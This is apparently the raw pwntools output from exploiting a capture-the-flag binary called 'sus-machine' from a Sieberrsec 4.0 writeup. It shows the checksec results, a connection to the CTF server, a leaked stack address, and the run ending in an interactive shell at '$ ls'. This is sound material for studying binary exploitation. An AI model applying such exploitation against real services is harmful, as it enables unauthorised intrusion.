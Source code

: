 ```
[*] '/home/samuzora/ctf/writeups/sieberrsec-4.0/sus-machine/dist/chal'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to de.irscybersec.ml on port 1337: Done
rip @ 0x7ffc3da999f8
  p.sendline(payload)
[*] Switching to interactive mode
pink
.

Menu:
1. Kill Crewmate
2. Leave game
> Enter crewmate name: Menu:
1. Kill Crewmate
2. Leave game
> Enter crewmate name: Menu:
1. Kill Crewmate
2. Leave game
> Enter crewmate name: Menu:
1. Kill Crewmate
2. Leave game
> Enter crewmate name: Menu:
1. Kill Crewmate
2. Leave game
> Enter crewmate name: Menu:
1. Kill Crewmate
2. Leave game
> Enter crewmate name: 

⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⢀⣔⣷⣶⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡝⠉⠉⠽⣿⣃⣼⣷⠶⣦⣤⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠫⢿⣄⠀⠀⠈⣿⠁⠀⠀⣁⣟⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠁⢛⣷⢂⠀⠀⠀⣀⡷⢣⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⠀⠀⠀⣿⡾⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢺⣿⠀⠀⠀⣿⠇⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢚⣾⠀⠀⠀⣽⡀⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣻⣿⠀⠀⠀⣿⡍⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⣸⣿⡏⠉⣙⣿⣿⣷⣶⣖⣷⣶⣿⣿⡲⣶⣲⣿⢗⣶⣖⣶⣲⣾⣛⢗⣷⠀⠀⠀
⠀⣿⣿⠁⠀⠉⣿⣿⡟⠛⠟⠝⠏⢙⠉⠙⠉⠋⠍⠙⠙⠉⠛⠛⠛⣻⣿⣿⠀⠀⠀
⠀⣿⣿⠀⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⠀⠀⠀
⠀⣿⣿⠀⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⠀⠀⠀
⠀⢿⣿⡆⠀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⡇⠀⠀⠀
⠀⠸⣿⣧⡀⠀⣿⣿⡇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣿⣿⠃⠀⠀⠀
⠀⠀⠛⢿⣿⣿⣿⣿⣇⠀⠀⠀⠀⠀⣰⣿⣿⣷⣶⣶⣶⣶⠶⠀⢠⣿⣿⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣿⣿⠀⠀⠀⠀⠀⣿⣿⡇⠀⣽⣿⡏⠁⠀⠀⢸⣿⡇⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⣿⣿⠀⠀⠀⠀⠀⣿⣿⡇⠀⢹⣿⡆⠀⠀⠀⣸⣿⠇⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⢿⣿⣦⣄⣀⣠⣴⣿⣿⠁⠀⠈⠻⣿⣿⣿⣿⡿⠏⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠛⠻⠿⠿⠿⠿⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀


pink was killed by                                                                                                                                                                                                                          
pinkaaaa\xf8\x99\xa9=\xfc\x7f.

Menu:
1. Kill Crewmate
2. Leave game
> $ ls
```